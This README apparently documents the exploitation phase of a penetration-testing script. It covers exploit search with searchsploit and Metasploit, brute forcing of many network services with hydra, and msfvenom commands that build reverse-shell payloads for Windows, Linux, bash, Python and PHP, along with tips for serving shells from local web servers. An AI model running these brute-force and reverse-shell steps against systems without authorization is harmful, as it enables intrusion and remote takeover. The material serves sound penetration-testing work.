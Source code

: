 # Exploitation Phase

Definition

Available parts:

- Search Exploits
- Brute Force

## Features

- Automatic Exploit Search: Search exploits from nmap vulnerability scan
- Brute Force most common services:
    - AFP, AJP, Cassandra, CouchDB, FTP, IMAP, IRC, ISCSI, LDAP, Mongo, MySQL, OracleSQL, POP, PostgreSQL, RDP, Redis, Rexec, Rlogin, Rsh, Rsync, RTSP, SNMP, SMB, SMTP, SOCKS, MS-SQL Server, SSH, Telnet, VNC

## Usage

1. Copy the `exploitation.conf.dist` file to `exploitation.conf`
```bash
cp exploitation.conf.dist exploitation.conf
```
2. Adjust the conf file to your needs
3. Run the script with following command:
```bash
./exploitation.sh -c exploitation.conf
```

## Results

Results stored to output/ directory.

## Search Exploits

Automatic approach:  

- Set SEARCHEXPLOIT variable to true to let the script find exploits from nmap vulners scan from reconnaissance phase

Manual approach:

- searchsploit (local copy of exploit-db)
- metasploit search (msf search)
- sqlmap

### searchsploit

Examples:  
```bash
searchsploit -u # update local exploit-db
searchsploit openssh -www
searchsploit apache 2.2 | grep -i local
```

If you have an EDB-ID, you can directly download an exploit with -m parameter:
```bash
searchsploit -m [EDB-ID]
# Example:
searchsploit -m 50689
```

### metasploit

Try metasploit (msfconsole) to search for an exploit by a given CVE Number or EDB-ID or by keywords.  
Metasploit search examples:
```bash
msfconsole -x "search cve:2010-2075; exit;" -q
msfconsole -x "search type:exploit platform:linux ftp; exit;" -q
msfconsole -x "search type:exploit platform:windows port:135; exit;" -q
```

## Tools used

All tools used are preinstalled on latest Kali Linux Version 2022.1:

- nmap
- hydra
- searchsploit

-----

## Additional Information

### Payloads

Creating payloads with MsfVenom:  

```sh
# msfvenom syntax
msfvenom -p [payload] LHOST=[listeninghost] LPORT=[listeningport] [more options]

# Examples:
# Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > revshell.exe    

# Linux
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > revshell.elf    
msfvenom -p linux/x64/shell_reverse_tcp RHOST=<IP> LPORT=<PORT> -f elf > revshell.elf

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > revshell.sh

# Python
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > revshell.py

# PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > revshell.php
```


### Reverse Shells

Checkout the following links on Reverse Shells:

- [Reverse Shell Generator](https://www.revshells.com/)
- [Reverse Shell Cheat Sheet @ HighOn.Coffee](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [Different Shells @ HackTricks](https://book.hacktricks.xyz/shells/shells)

### Local Web Servers

Need an simple, local web server? These are great for serving up (reverse) shells  

| **Command**                             | **Description**                                                     |
|-----------------------------------------|---------------------------------------------------------------------|
| ```python2 -m SimpleHTTPServer 8000```   | Run a basic http server with python on port 8000 in this directory  |
| ```python3 -m http.server 8000```       | Same with python3                                                   |
| ```php -S 0.0.0.0:8000```               | Run a basic http server with php on port 8000 in this directory     | 

### SQL Injection

Try [sqlmap](https://github.com/sqlmapproject/sqlmap) to enumerate and inject sql databases.

### Command Injection

Checkout the [commix project](https://github.com/commixproject/commix/wiki/Usage-Examples) for possible command injection examples with commix or for [getting shells with commix](https://github.com/commixproject/commix/wiki/Getting-Shells).
